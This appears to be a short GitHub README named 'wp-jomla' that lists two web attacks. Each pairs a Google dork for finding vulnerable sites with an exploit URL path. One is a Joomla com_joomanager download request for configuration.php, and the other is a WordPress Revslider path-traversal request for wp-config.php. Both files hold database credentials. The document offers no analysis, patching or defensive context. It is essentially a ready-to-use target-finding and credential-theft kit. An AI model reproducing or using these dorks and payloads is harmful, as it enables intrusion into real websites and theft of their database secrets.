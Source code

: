 # wp-jomla
Joomla

Dork: Joomla Config File Download Vulnerability: inurl:'index.php?option=com_joomanager 

Exploit: /index.php?option=com_joomanager&controller=details&task=download&path=configuration.php

==================================================================================================
WordPress

Dork: WordPress Arbitrary File Download vulnerability inurl:/wp-content/plugins/revslider/

Exploit: /admin-ajax.php?action=revslider_show_image&img=../wp-config.php
